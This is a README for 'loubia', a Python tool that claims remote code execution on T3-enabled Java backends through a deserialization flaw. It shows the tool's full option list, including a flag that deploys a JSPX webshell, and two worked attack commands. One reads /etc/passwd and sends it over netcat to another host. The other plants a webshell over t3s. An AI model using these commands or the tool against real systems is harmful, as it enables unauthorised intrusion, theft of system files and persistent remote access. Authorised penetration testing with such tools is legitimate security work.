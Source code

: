# loubia
Python script that achieves remote code execution on t3 enabled backends. This is possible thanks to (or because of) the Java Unserialize vulnerability.
# Usage
Below is the help of Loubia showing its awesome functionalities:

		Usage: loubia.py hostname port [options]
		Options:
		  --version             show program's version number and exit
		  -h, --help            show this help message and exit
		  -c PAYLOAD, --cmd=PAYLOAD
		                        Command to execute
		  -o OS, --os=OS        Target operating system (unix/win). Default is unix
		  -l SHELL, --shell=SHELL
		                        shell to use (sh/bash). Default is sh
		  -s, --ssl             Use t3s protocol. Default : false
		  -p PROTOCOL, --protocol=PROTOCOL
		                        SSL protocol to use (sslv3/tlsv1/best). Default is
		                        sslv3
		  -w, --webshell        Deploy a jspx webshell
		  -u URL, --url=URL     Deploy the jspx webshell to the target URL path
		                        (webshell name will be URL_.jspx)
		  -v, --verbose         Print verbose output. Default : false

Examples:
Disclosing /etc/passwd to a local listening socket

		./loubia.py 192.168.1.2 7001 -c "cat /etc/passwd | nc 192.168.1.3 6666"
								
Deploying a webshell using bash on t3s

		./loubia.py 192.168.1.2 7002 -s -l bash -w

# Details
For more details see this post http://wtfsec.blogspot.fr/2016/03/loubia-exploitation-of-java-unserialize.html
